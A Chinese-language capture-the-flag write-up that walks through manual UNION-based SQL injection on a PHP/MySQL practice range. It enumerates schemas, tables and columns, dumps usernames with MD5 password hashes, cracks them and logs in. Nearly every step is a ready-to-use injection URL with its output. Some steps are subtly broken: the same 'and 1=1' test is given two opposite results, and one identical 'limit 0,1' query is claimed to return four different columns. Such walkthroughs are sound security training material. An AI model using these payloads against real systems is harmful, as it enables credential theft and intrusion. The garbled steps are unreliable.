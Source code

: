# SQL 手工注入漏洞测试（MySQL数据库）

> **题目信息：**
> **背景介绍**
> 安全工程师"墨者"最近在练习SQL手工注入漏洞，自己刚搭建好一个靶场环境Nginx+PHP+MySQL，PHP代码对客户端提交的参数未做任何过滤。尽情的练习SQL手工注入吧
> **实训目标**
> 1.掌握SQL注入原理；
> 2.了解手工注入的方法；
> 3.了解MySQL的数据结构；
> 4.了解字符串的MD5加解密
> **解题方向**
> 手工进行SQL注入测试，获取管理密码登录。

# 一、进入靶场
本题要求为**SQL注入**，那么我们就先去寻找注入点而不是直接爆破用户名和密码。
![image.png](https://raw.githubusercontent.com/wlynxg/pic/main/2025/06/01/20250601-171204.png)

# 二、在公告处发现注入点
![image.png](https://raw.githubusercontent.com/wlynxg/pic/main/2025/06/01/20250601-171224.png)

# 三、确定注入格式
1. http://219.153.49.228:41317/new_list.php?id=1 and 1=1 >> **不报错，未过滤关键字**
2. http://219.153.49.228:41317/new_list.php?id=1 and 1=1 >> **报错，发现注入点**
# 四、确定字段数
1. `http://219.153.49.228:41317/new_list.php?id=1order by 1` >> **不报错**
2. `http://219.153.49.228:41317/new_list.php?id=1order by 2` >> **不报错**
3. `http://219.153.49.228:41317/new_list.php?id=1order by 3` >> **不报错**
4. `http://219.153.49.228:41317/new_list.php?id=1order by 4` >> **不报错**
5. `http://219.153.49.228:41317/new_list.php?id=1order by 5` >> **报错**

**确定字段数为4**
# 五、确定显示字段
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,2,3,4`
![image.png](https://raw.githubusercontent.com/wlynxg/pic/main/2025/06/01/20250601-171244.png)

**确定显示字段为2和3。**
# 六、查询数据库名字和版本
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,database(),version(),4`
![image.png](https://raw.githubusercontent.com/wlynxg/pic/main/2025/06/01/20250601-171256.png)
**确定数据库名字为 *mozhe_Discuz_StormGroup* ，数据库版本为 *5.7.22-0ubuntu0.16.04.1* 。**
# 七、查询其它数据库名称
1. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 0,1` >> **information_schema**
2. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1` >> **mozhe_Discuz_StormGroup**
3. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 2,1` >> **mysql**
4. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 3,1` >> **performance_schema**
5. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 4,1` >> **sys**
# 八、查询数据库表名
1. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup' limit 0,1`>>**StormGroup_member**
2. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup' limit 1,1`>>**notice**
**根据表名我们可以发现，*StormGroup_member*这张表放的是用户信息，*notice*这张表中放的是公告信息**
# 九、查询表中字段名
1. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**id, int(11)**
2. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**name, varchar(20)**
3. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**password, varchar(255)**
4. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**status, int(11)**
# 十、查询用户信息
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,concat(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 0,1`>>**mozhe-356f589a7df439f6f744ff19bb8092c0-0**
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,concat(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 1,1`>>**mozhe-e2391899875e16f7013173cd17524303-1**
**查询出了两条记录，发现密码长度都为32位，猜测应该是md5加密的，将密码放进[解密网站](https://www.cmd5.com/)进行解密，使用用户名和密码登陆网站**
# 十一、登陆成功

**下方就是我们需要提交的key了**![image.png](https://raw.githubusercontent.com/wlynxg/pic/main/2025/06/01/20250601-171319.png)
